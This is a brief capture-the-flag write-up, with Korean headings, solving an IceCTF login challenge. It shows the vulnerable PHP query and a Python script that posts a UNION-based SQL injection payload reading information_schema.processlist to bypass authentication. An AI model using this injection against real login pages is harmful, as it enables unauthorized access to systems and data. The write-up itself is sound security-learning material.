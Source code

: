 ============================================================================================================
[IceCTF] Solve
============================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="post_data: {username=' union select 1,2,info from information_schema.processlist-- -",arrowhead="normal"];
        step3 -> step2[label="login success",arrowhead="normal"];
    }

|

소스 분석
================================================================================================================

- PHP 
- POST 파라미터: username, password

.. code-block:: sql

    SELECT * FROM users WHERE username='$_POST["username"]' AND password='$_POST["password"]'

|

login success
================================================================================================================

- union select
- information_schema.processlist

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "http://miners.vuln.icec.tf/login.php"

    payload = {
        "username": "' union select 1,2,info from information_schema.processlist-- -",
        "password": "1",
    }

    r = requests.post(url, data=payload, verify=False)

    print r.content

|